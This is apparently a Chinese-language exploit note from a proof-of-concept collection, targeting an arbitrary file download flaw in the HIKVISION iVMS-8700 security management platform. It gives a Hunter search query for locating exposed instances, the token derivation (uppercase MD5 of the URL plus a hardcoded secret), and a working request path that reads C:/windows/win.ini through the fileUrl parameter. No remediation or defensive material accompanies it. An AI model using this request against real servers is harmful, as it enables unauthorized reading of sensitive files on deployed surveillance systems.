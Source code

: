 # 海康威视 iVMS-8700综合安防管理平台 download 任意文件下载

# 一、漏洞简介
HIKVISION iVMS-8700综合安防管理平台存在任意文件读取漏洞，攻击者通过发送特定的请求包可以读取服务器中的敏感文件获取服务器信息

# 二、影响版本
+ HIKVISION iVMS-8700综合安防管理平台

# 三、资产测绘
+ hunter：`app.name=="Hikvision 海康威视 iVMS"`

![1691846011747-3e390938-652e-4fe6-b38a-508a0b3213c5.png](./img/rCOOTOGt_2fSkyU3/1691846011747-3e390938-652e-4fe6-b38a-508a0b3213c5-829726.png)

+ 登录页面

![1691846029356-5d70967f-a564-438d-9b21-de08e829d5aa.png](./img/rCOOTOGt_2fSkyU3/1691846029356-5d70967f-a564-438d-9b21-de08e829d5aa-705897.png)

# 四、漏洞复现
poc，token为`url+secretKeyIbuilding`进行MD5加密（**32位大写**）

```plain
/eps/api/triggerSnapshot/download?token=xxx&fileUrl=file:///C:/windows/win.ini&fileName=1 
```

![1691846212487-b9d3a53e-febe-4ceb-9974-87fbbf347f48.png](./img/rCOOTOGt_2fSkyU3/1691846212487-b9d3a53e-febe-4ceb-9974-87fbbf347f48-196042.png)

![1691846233174-cb5861b5-fd91-4610-9d18-dc62ca069f13.png](./img/rCOOTOGt_2fSkyU3/1691846233174-cb5861b5-fd91-4610-9d18-dc62ca069f13-057686.png)



> 更新: 2024-02-29 23:57:17  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/okdesxq0iuq0sfkb>